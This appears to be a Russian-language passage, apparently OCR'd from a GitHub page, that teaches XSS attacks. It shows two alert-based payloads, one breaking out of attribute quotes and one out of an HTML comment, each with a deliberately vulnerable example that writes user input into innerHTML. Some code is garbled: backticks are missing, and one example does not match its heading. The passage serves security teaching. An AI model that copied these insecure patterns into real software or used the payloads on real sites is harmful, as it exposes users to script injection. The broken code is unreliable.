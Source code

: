 
#### Выход за пределы атрибута в одинарных и двойных кавычках

Пейлоад:
`'"><script>alert('XSS Attack!');</script>`


Пример уязвимого JavaScript-кода:
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XSS Example</title>
</head>
<body>
    <input type="text" id="userInput" value="">
    <button onclick="setInputValue()">Отправить</button>
    
    <script>
        function setInputValue() {
            const userInput = document.getElementById('userInput').value;
            document.body.innerHTML += <div class="user-comment" style="background-image:url('${userInput}')"></div>; // Уязвимый код
        }
    </script>
</body>
</html>
```


#### Выход за пределы HTML-комментария

Пейлоад:
`-->'"><script>alert('XSS Attack!');</script>`


Пример уязвимого JavaScript-кода:
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XSS Example</title>
</head>
<body>
    <textarea id="commentInput"></textarea>
    <button onclick="addComment()">Добавить комментарий</button>

    <script>
        function addComment() {
            const comment = document.getElementById('commentInput').value;
            document.body.innerHTML += <!-- ${comment} -->; // Уязвимый код
        }
    </script>
</body>
</html>
```
